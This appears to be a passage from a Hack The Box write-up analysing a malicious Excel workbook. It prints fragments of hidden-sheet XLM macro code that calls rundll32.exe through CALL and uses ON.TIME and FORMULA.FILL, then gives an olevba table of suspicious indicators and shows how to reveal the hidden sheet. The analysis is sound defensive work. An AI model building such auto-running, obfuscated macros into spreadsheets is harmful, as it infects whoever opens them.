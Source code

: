 ```bash
' c1zB0vasN,R1191,"CALL(L554,I180,"JJCCCCJ",0,"Open","rundll32.exe",CONCATENATE(G1332,D8,D513,K390),0,0)",""
' c1zB0vasN,R1192,GOTO(A1338),""
' c1zB0vasN,F1220,"CONCATENATE(K1184,Y420,D450)",""
' c1zB0vasN,K1225,"CONCATENATE(Q880,V1048)",""
' c1zB0vasN,C1300,GOTO(Q222),""
' c1zB0vasN,G1332,"CONCATENATE(P1047,C593,C1040)",""
' c1zB0vasN,D1337,"IF(F100<300,ON.TIME(NOW()+"00:00:02",A1),ON.TIME(NOW()+"00:00:02","KsshpqC4Mo"))",""
' c1zB0vasN,A1338,"FORMULA.FILL("a",R~0C~0)",""
' c1zB0vasN,A1339,HALT(),""
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|Open                |May open a file                              |
|Suspicious|CALL                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|Windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|FORMULA.FILL        |May modify Excel 4 Macro formulas at runtime |
|          |                    |(XLM/XLF)                                    |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |rundll32.exe        |Executable file name                         |
|Suspicious|XLM macro           |XLM macro found. It may contain malicious    |
|          |                    |code                                         |
+----------+--------------------+---------------------------------------------+
```

## Revealing the payload

At first, none of this appears in LibreOffice: the sheet "c1zB0vasN" is nowhere to
be found.

It is hidden, the action "move / copy sheet" does show the sheet "c1zB0vasN" in the
list: it can be copied in a visible sheet.

The resulting sheet is blank because of its formatting:

![][blank-hidden-sheet]

So the content can be revealed after altering the cell format:

![][revealed-content]

Still the formulas are fragmented over hundreds of cells, it is unreadable.

## Dynamic analysis?


[author-profile]: https://app.hackthebox.eu/users/4935
[blank-hidden-sheet]: images/blank-hidden-sheet.png
[revealed-content]: images/revealed-content.png
[virustotal_details]: images/details.png
[virustotal_detection]: images/detection.png